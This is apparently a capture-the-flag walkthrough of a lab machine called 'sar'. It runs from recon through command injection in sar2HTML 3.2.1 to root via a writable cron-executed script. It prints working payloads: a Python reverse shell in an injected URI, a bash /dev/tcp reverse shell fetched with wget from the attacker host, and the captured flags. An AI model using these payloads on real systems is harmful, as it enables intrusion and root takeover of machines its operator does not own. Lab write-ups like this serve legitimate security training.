 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```



## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -Pn -p- -A -T5 192.168.179.35
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 13:15 EDT
Warning: 192.168.179.35 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.179.35
Host is up (0.067s latency).
Not shown: 64075 closed tcp ports (conn-refused), 1458 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 319.29 seconds
```

There are two open ports:

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

### Directory enumeration

Let's perform some directory brute forcing using `ffuf` to check what web directories are present.

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.179.35/FUZZ
________________________________________________

.hta                    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 65ms]
.htpasswd               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
.htaccess               [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 791ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 64ms]
phpinfo.php             [Status: 200, Size: 95464, Words: 4716, Lines: 1170, Duration: 118ms]
robots.txt              [Status: 200, Size: 9, Words: 1, Lines: 2, Duration: 66ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 67ms]
:: Progress: [4614/4614] :: Job [1/1] :: 598 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

Let's visit the `robots.txt` page. There's usually something useful there.

![1](https://github.com/user-attachments/assets/6d51d15a-54a7-4127-9843-1d6e0b4560fb)

The `sar2HTML` page is being blocked for crawlers. That is why it did not show up in the `ffuf` scan. 

Let's visit the page.

![2](https://github.com/user-attachments/assets/caf167bf-bfa6-4c50-9fcb-bda6f94fe510)

&nbsp;

## Exploitation

### Searching for relevant exploit.

We can look up exploits for sar2HTML version `3.2.1`.
[This](https://www.exploit-db.com/exploits/47204) exploit shows up:

![3](https://github.com/user-attachments/assets/233e3976-00af-41cd-9de9-098ffd8186b8)

Let's check the exploit using the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;ls
```

![4](https://github.com/user-attachments/assets/a27a511b-071a-465f-ac79-c29c960bcabf)

### Obtaining a reverse shell

In order to obtain a reverse shell, we need to first set up a `nc` listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```

Now, we can enter the following URI:

```
192.168.179.35/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.234",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Let's check back on our listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 34638
bash: cannot set terminal process group (975): Inappropriate ioctl for device
bash: no job control in this shell
www-data@sar:/var/www/html/sar2HTML$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
www-data@sar:/var/www/html/sar2HTML$ cat /home/local.txt
cat /home/local.txt
e6f25e304acccc7b3b947383c66f2aef
```

### Privilege Escalation

#### Checking scheduled Cron jobs

We can check if there are any Cron jobs scheduled by displaying the contents of the `/etc/crontab` file.

```
www-data@sar:/var/www/html/sar2HTML$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
```

The `./finally.sh` file is executed every 5th minute with `root` privileges.

We can verify this using [crontab guru](https://crontab.guru/).

![5](https://github.com/user-attachments/assets/49a4c19a-6d43-435f-812a-b897baa8ee60)

Unfortunately, we cannot edit the `./finally.sh` file.
Let's check what it is doing.

```
www-data@sar:/var/www/html$ cat finally.sh
cat finally.sh
#!/bin/sh

./write.sh
```

So it execute another file called `./write.sh`.

#### Exploiting scheduled Cron job via shared object injection

Let's delete this `./write.sh` file.

```
www-data@sar:/var/www/html$ rm write.sh
rm write.sh
```

Now, in our attacker machine we can create another `./write.sh` file containing a reverse shell script.

```bash title="write.sh"
#!/bin/bash  

bash -i >& /dev/tcp/192.168.45.234/9998 0>&1
```

Next we can transport the file to the target.

```
www-data@sar:/var/www/html$ wget http://192.168.45.234:8000/write.sh
wget http://192.168.45.234:8000/write.sh
--2024-08-10 23:29:05--  http://192.168.45.234:8000/write.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60 [text/x-sh]
Saving to: 'write.sh'

     0K                                                       100% 15.0M=0s

2024-08-10 23:29:05 (15.0 MB/s) - 'write.sh' saved [60/60]
```

Let's make the file executable.

```
www-data@sar:/var/www/html$ chmod +x write.sh
chmod +x write.sh
```

Now, we have to set up a `nc` listener and wait.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
```

After some time the Cron job will be executed and we will obtain a reverse shell with `root` privileges.

```
$ nc -nlvp 9998                  
listening on [any] 9998 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.179.35] 54846
bash: cannot set terminal process group (3286): Inappropriate ioctl for device
bash: no job control in this shell
root@sar:/var/www/html# 
```

### proof.txt

```
root@sar:/var/www/html# cd /root
cd /root
root@sar:~# 
```

```
root@sar:~# cat proof.txt
cat proof.txt
c07959ab9321d3dd66064bddacc012ea
```
